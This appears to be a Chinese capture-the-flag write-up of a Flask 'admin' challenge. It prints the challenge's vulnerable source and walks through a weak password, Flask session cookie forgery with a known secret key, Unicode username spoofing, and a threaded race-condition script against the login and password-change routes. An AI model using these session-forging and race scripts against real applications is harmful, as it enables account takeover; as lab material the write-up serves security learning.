

 登录试一下，发现有admin这个用户，但是密码不知道，sql注入也没有成功。先用弱口令试试看，输入密码123，成功？？？ 弱口令爆破应该也是一种解法。
flask session伪造
其实在登录后的change
password页面有一个提示，但是那个网站已经没了，以下是源码 1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109#routes.py
#!/usr/bin/env python
# -*- coding:utf-8 -*-
from flask import Flask, render_template, url_for, flash, request, redirect, session, make_response
from flask_login import logout_user, LoginManager, current_user, login_user
from app import app, db
from config import Config
from app.models import User
from forms import RegisterForm, LoginForm, NewpasswordForm
from twisted.words.protocols.jabber.xmpp_stringprep import nodeprep
from io import BytesIO
from code import get_verify_code
@app.route('/code')
def get_code():
image, code = get_verify_code()
# 图片以二进制形式写入
buf = BytesIO()
image.save(buf, 'jpeg')
buf_str = buf.getvalue()
# 把buf_str作为response返回前端，并设置首部字段
response = make_response(buf_str)
response.headers['Content-Type'] = 'image/gif'
# 将验证码字符串储存在session中
session['image'] = code
return response
@app.route('/')
@app.route('/index')
def index():
return render_template('index.html', title = 'hctf')
@app.route('/register', methods = ['GET', 'POST'])
def register():
if current_user.is_authenticated:
return redirect(url_for('index'))
form = RegisterForm()
if request.method == 'POST':
name = strlower(form.username.data)
if session.get('image').lower() != form.verify_code.data.lower():
flash('Wrong verify code.')
return render_template('register.html', title = 'register', form=form)
if User.query.filter_by(username = name).first():
flash('The username has been registered')
return redirect(url_for('register'))
user = User(username=name)
user.set_password(form.password.data)
db.session.add(user)
db.session.commit()
flash('register successful')
return redirect(url_for('login'))
return render_template('register.html', title = 'register', form = form)
@app.route('/login', methods = ['GET', 'POST'])
def login():
if current_user.is_authenticated:
return redirect(url_for('index'))
form = LoginForm()
if request.method == 'POST':
name = strlower(form.username.data)
session['name'] = name
user = User.query.filter_by(username=name).first()
if user is None or not user.check_password(form.password.data):
flash('Invalid username or password')
return redirect(url_for('login'))
login_user(user, remember=form.remember_me.data)
return redirect(url_for('index'))
return render_template('login.html', title = 'login', form = form)
@app.route('/logout')
def logout():
logout_user()
return redirect('/index')
@app.route('/change', methods = ['GET', 'POST'])
def change():
if not current_user.is_authenticated:
return redirect(url_for('login'))
form = NewpasswordForm()
if request.method == 'POST':
name = strlower(session['name'])
user = User.query.filter_by(username=name).first()
user.set_password(form.newpassword.data)
db.session.commit()
flash('change successful')
return redirect(url_for('index'))
return render_template('change.html', title = 'change', form = form)
@app.route('/edit', methods = ['GET', 'POST'])
def edit():
if request.method == 'POST':
flash('post successful')
return redirect(url_for('index'))
return render_template('edit.html', title = 'edit')
@app.errorhandler(404)
def page_not_found(error):
title = unicode(error)
message = error.description
return render_template('errors.html', title=title, message=message)
def strlower(username):
username = nodeprep.prepare(username)
return username1
2
3
4
5
6
7
8from itsdangerous import *
s = "eyJ1c2VyX2lkIjo2fQ.XA3a4A.R-ReVnWT8pkpFqM_52MabkZYIkY"
data,timestamp,secret = s.split('.')
print("data=",data," ; timestamp = ",timestamp," ; secret = ",secret)
print(base64_decode(data))
print(base64_decode(timestamp))
print(int.from_bytes(base64_decode(timestamp),byteorder='big'))
print(int.from_bytes(base64_decode(secret),byteorder='big'))
上面的例子中，如果signed=False，则无符号位；
若byteorder='big'，则输入s的左边是高位，右边是低位。 #大端法
运行结果 1
2
3
4
5data= eyJ1c2VyX2lkIjo2fQ ; timestamp = XA3a4A ; secret = R-ReVnWT8pkpFqM_52MabkZYIkY
b'{"user_id":6}'
b'\\\r\xda\xe0'
1544411872
4104311326092065925835049774596770317804172826301
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode
def decryption(payload):
payload, sig = payload.rsplit(b'.', 1)
payload, timestamp = payload.rsplit(b'.', 1)
decompress = False
if payload.startswith(b'.'):
payload = payload[1:]
decompress = True
try:
payload = base64_decode(payload)
except Exception as e:
raise Exception('Could not base64 decode the payload because of an exception')
if decompress:
try:
payload = zlib.decompress(payload)
except Exception as e:
raise Exception('Could not zlib decompress the payload before decoding the payload')
return session_json_serializer.loads(payload)
if __name__ == '__main__':
print(decryption(sys.argv[1].encode())) 用脚本破解得
用脚本破解得  破解结果
破解结果 1
{'_fresh': True, '_id': b'017b837bac64b4ea3e94b88e771f532e685ea71c4c3d251c3c974e3e8ab583bd907ce40413edca5a5509d958a67a036506bd7c923f2ad0e57be8a561f42a7c0d', 'csrf_token': b'd6055148868c3cfa5e6a4992b566d4907dc701eb', 'image': b'b3Al', 'name': 'ycqaq', 'user_id': '10'}1
python3 flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'017b837bac64b4ea3e94b88e771f532e685ea71c4c3d251c3c974e3e8ab583bd907ce40413edca5a5509d958a67a036506bd7c923f2ad0e57be8a561f42a7c0d', 'csrf_token': b'd6055148868c3cfa5e6a4992b566d4907dc701eb', 'image': b'b3Al', 'name': 'admin', 'user_id': '10'}"1
.eJw9kE-LwjAQxb_KkrOH_tGL4EE2aWlhEuqOWzIXcdtqmpouVEWt-N03uuDhXd7A7715d7bZDc3RsPlpODcTtmlrNr-zjx82ZxqpVXx5ATQHbatI4z4El4VyTIx05LTNDVmyEmsLuOq0FaG04iJLfVFpFkiUTqUi1iimVOpAYX0griPgieetvPJWYTdVWF11SZ6ZdMB9joUYeN4C5g4i3wEhkE7MqJSGUNxgrEbiay8dg_MMni3YY8Kq47DbnH67pn-_QJjNtMsCst-dxmUo03WkeBFTmhuF2VXa7irH4iZHMYVnfZcYWC5euNZt982btHWnz6_i_9JvXfO0atf2bMLOx2Z47cbCgD3-ADyZbJs.Zzw_Gg.QMW96hrOXI0cTP4eUIRrfV-Weq8
Unicode 欺骗
我们看一下之前route.py中的一段代码 1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31@app.route('/change', methods = ['GET', 'POST'])
def change():
if not current_user.is_authenticated:
return redirect(url_for('login'))
form = NewpasswordForm()
if request.method == 'POST':
name = strlower(session['name']) #1
user = User.query.filter_by(username=name).first()
user.set_password(form.newpassword.data)
db.session.commit()
flash('change successful')
return redirect(url_for('index'))
return render_template('change.html', title = 'change', form = form)
@app.route('/edit', methods = ['GET', 'POST'])
def edit():
if request.method == 'POST':
flash('post successful')
return redirect(url_for('index'))
return render_template('edit.html', title = 'edit')
@app.errorhandler(404)
def page_not_found(error):
title = unicode(error)
message = error.description
return render_template('errors.html', title=title, message=message)
def strlower(username): #2
username = nodeprep.prepare(username)
return username
条件竞争
1 | |
上述代码表示，1、在登录时是直接将登陆表单中的用户名赋值给session['name']；且不需要密码是不是正确（需要用bp抓包，直接登录session里面只有一瞬间改变） 2、在修改密码的时候是直接将session['name']即用户名赋值给name，然后对name用户进行修改密码。未进行安全的身份验证，也就可能存在以下一种可能： 我们注册一个用户test，现在有一个进程1登录了test用户 然后重复进行改密码操作 因为改密码需要session['name']来判断是修改的那个用户，所以改密码时一直用的是test用户的session； 进程2一直以admin用户进行登录密码正确与否无所谓，此时会创建一个session，内容里面name=admin，即session['name']内容admin。
那么就会是不是有可能当进程1进行到改密码操作时，进程2恰好进行登录，此时进程1改密码需要一个session['name']赋值给name来判断是修改哪一个用户的密码，而进程2刚好将session[‘name’]赋值为admin，然后进程1调用此session修改密码，即修改了admin的密码。
python脚本 1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41import requests
import threading
def login(s, username, password):
data = {
'username': username,
'password': password,
'submit': ''
}
return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/login", data=data)
def logout(s):
return s.get("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/logout")
def change(s, newpassword):
data = {
'newpassword':newpassword
}
return s.post("http://db0fc0e1-b704-4643-b0b6-d39398ff329a.node1.buuoj.cn/change", data=data)
def func1(s):
login(s, 'test', 'test')
change(s, 'test')
def func2(s):
logout(s)
res = login(s, 'admin', 'test')
if 'flag' in res.text:
print('finish')
def main():
for i in range(1000):
print(i)
s = requests.Session()
t1 = threading.Thread(target=func1, args=(s,))
t2 = threading.Thread(target=func2, args=(s,))
t1.start()
t2.start()
if __name__ == "__main__":
main()